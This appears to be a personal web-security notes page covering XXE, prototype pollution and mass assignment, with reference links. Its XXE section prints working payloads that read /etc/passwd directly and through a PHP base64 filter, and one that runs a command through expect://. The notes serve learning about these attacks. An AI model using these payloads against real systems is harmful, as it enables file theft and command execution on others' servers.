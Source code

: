 ## XXE:  
Entities declaration: this type of entity declaration is called internal declaration as everything is defined inside the same document and nothing needs to be fetched externally.  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ELEMENT student (#PCDATA)>
	<!ENTITY name "James Jones">
]>
<student>&name;</student>
```

**External entities**:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ELEMENT student (#PCDATA)>
	<!ENTITY sname SYSTEM "https://www.prakharprasad.com/external.xml">
]>
<student>&sname;</student>
```  

**Simple XXE attack: reading files**.  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ENTITY oops SYSTEM "file:///etc/passwd">
]>
<student>
	<name>&oops;</name>
</student>
```  

**Simple XXE attack: PHP Base64 conversion URI as an alternative**. (php://filter/convert.base64-encode/resource=/file/to/read)  
```
<!DOCTYPE student [
	<!ENTITY pwn SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
<student>
	<name>&pwn;</name>
</student>
```  

**RCE thtough XXE**:  
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
	<!ENTITY rce SYSTEM "expect://id">]>
<student>
	<name>&rce;</name>
</student>
```  

## Prototype Pollution:  
```
var book = {bookName: "Book name", authorName: "Author of book"};
console.log(book.toString())
//output: “[object Object]”

book.__proto__.toString = ()=>{alert("polluted")}
console.log(book.toString())
// alert box pops up: “polluted”

IMAGE: alert pops up with value “polluted”
```
**Additional resources**:  
https://www.mend.io/resources/blog/prototype-pollution-vulnerabilities/  
https://guidesmiths.github.io/cybersecurity-handbook/attacks_explained/prototype_pollution  
https://youtu.be/W9_x8pc_bh8  

## MASS ASSIGNMENT ATTACK:

**Additional information**:  
https://youtu.be/r1j0COUMTqw  

## ONLINE DECOMPILER:  
https://dogbolt.org  

## JavaScript:  

**Additional information**: https://www.freecodecamp.org/news/http-full-course/  
